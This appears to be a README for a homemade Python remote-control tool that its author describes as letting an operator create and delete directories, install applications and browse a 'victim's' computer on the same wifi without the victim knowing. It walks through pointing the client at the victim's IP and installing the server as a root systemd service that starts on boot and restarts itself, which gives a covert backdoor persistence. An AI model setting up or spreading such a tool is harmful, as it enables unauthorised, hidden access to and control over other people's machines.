 This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.

Requirements

To run this project, you will need the following:

Python 3.x installed on both the server and client machines.
SQLite3 (included with Python).
Basic knowledge of using a terminal or command line interface.

Files Included

client.py: The client script to send commands to the server.
server.py: The server script to receive and execute commands.
createDb.py: A script to create the SQLite database and table.
view_Db.py: A script to view the contents of the database.
command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up) -> Windows: python createDb.py Linux/Mac: python3 createDb.py

Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine): client_socket.connect(('192.168.169.117', 12345)) #Example


Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table: python3 create_db.py


Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot: sudo nano /etc/systemd/system/server.service


3.2: Add the following content to the file

[Unit]
Description=Start Server Script
After=network.target

[Service]
ExecStart=/usr/bin/python3 /path/to/server.py
WorkingDirectory=/path/to/
StandardOutput=inherit
StandardError=inherit
Restart=always
User=root

[Install]
WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.


3.3: Reload the systemd daemon and start the service:
sudo systemctl daemon-reload
sudo systemctl start server.service
sudo systemctl enable server.service


Step 4: Running the Client

Run the command 'python3 client.py' on your terminal while you are on your projects directory -> .../Desktop/client.py
Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine: python3 view_db.py
This will print the stored command outputs.


That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
